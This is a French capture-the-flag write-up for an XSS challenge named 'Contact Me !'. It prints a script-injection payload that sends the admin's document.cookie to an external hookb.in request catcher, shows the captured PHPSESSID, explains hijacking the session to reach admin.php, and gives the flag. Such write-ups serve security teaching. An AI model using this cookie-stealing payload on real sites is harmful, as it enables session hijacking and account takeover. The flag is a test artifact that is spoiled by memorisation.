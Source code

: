# Contact Me !

### Description
Un petit développeur a mis en place un serveur où vous pouvez le contacter.
Malheureusement, une des pages n'est pas accessible, et j'ai vraiment envie de savoir ce qu'elle cache... Vous pouvez le faire pour moi ?
<br/>

### Solution
Quand on voit le titre du challenge, on imagine assez facilement qu'il va falloir effectuer une attaque de type XSS pour pouvoir avoir accès à la page secrête.
En allant sur la page, elle revoie : <b>This page is PRIVATE!</b>

On essaye une attaque de base pour vérifier que les scripts sont exécutés par la page :
`<script>alert(1)</script>`

Le script fonctionne !
Pour accèder à la page secrète, il va sûrement falloir voler le cookie de l'administrateur.
Comme les scripts sont éxécutés par l'admin, si on écrit un payload pour renvoyer le cookie de la page, celui qui va être renvoyé le sien.

Payload : <br/>
`<script>document.write('<img src="https://hookb.in/9X1qnEMbdnI600eMoWM7?cookie='+document.cookie+'">Im a cookie stealer :p</img>');</script>`

Ce script permet de dermander à l'administrateur de renvoyer le cookie à l'adresse `https://hookb.in/9X1qnEMbdnI600eMoWM7` qui est un écouteur de requêtes.

Après envoi du payload, on retrouve bien sur l'endpoint le cookie renvoyé par l'admin : <br/> 
`cookie: PHPSESSID=3f1f8431f0ed4202893dc4cb19a36021`

Au niveau du referer dans la requête c'est intéressant de voir cela : <br/>
`referer: http://localhost/index.php?botSenpai=sess_93db8da8292c8ce9bd44f193450eb8f2`

On peut maintenant essayer de se connecter à la page admin.php en changean notre cookie.

Et voilà le flag : `Hero{b3_c4r3ful_w1th_xss_!!}`
